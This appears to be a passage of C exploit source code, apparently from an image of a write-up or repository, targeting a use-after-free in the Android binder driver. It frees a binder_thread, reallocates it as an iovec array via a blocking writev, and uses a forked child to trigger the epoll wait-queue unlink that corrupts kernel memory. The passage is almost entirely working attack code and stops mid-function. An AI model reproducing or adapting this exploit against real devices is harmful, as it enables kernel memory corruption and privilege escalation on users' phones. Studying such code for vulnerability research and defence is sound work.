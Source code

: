```c
    //
    // iovec.iov_base is a 64bit value, and spinlock_t is 32bit, so if
    // we can pass a valid memory address whose lower 32bit value is 0,
    // then we can avoid spin lock issue.
    //
    mmap4gbAlignedPage();
    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = PAGE_SIZE;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *) 0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = PAGE_SIZE;

    // Now link the poll wait queue to binder thread wait queue
    linkEventPollWaitQueueToBinderThreadWaitQueue();
    //
    // We should trigger the unlink operation when we
    // have the binder_thread reallocated as iovec array
    //
    // Now fork
    pid_t childPid = fork();
    if (childPid == 0) {
        //
        // child process
        // There is a race window between the unlink and blocking
        // in writev, so sleep for a while to ensure that we are
        // blocking in writev before the unlink happens
        sleep(2);
        // Trigger the unlink operation on the reallocated chunk
        unlinkEventPollWaitQueueFromBinderThreadWaitQueue();
        //
        // First interesting iovec will read 0x1000 bytes of data.
        // This is just the junk data that we are not interested in
        //
        nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));
        if (nBytesRead != PAGE_SIZE) {
            ERR("\t[-] CHILD: read failed. nBytesRead: 0x%lx, expected: 0x%x", nBytesRead, PAGE_SIZE);
            exit(EXIT_FAILURE);
        }
        exit(EXIT_SUCCESS);
    }
    // parent process
    // I have seen some races which hinders the reallocation.
    // So, now freeing the binder_thread after fork.
    //
    freeBinderThread();
    //
    // Reallocate binder_thread as iovec array
    //
    // We need to make sure this writev call blocks
    // This will only happen when the pipe is already full

    // This print statement was ruining the reallocation,
    // spent a night to figure this out. Commenting the
    // below line.
    //
    // INFO("[+] Reallocating binder_thread\n");

    ssize_t nBytesWritten = writev(pipe_fd[1], iovecStack, IOVEC_COUNT);
    // If the corruption was successful, the total bytes written
    // should be equal to 0x2000. This is because there are two
    // valid iovec and the length of each is 0x1000
    if (nBytesWritten != PAGE_SIZE * 2) {
```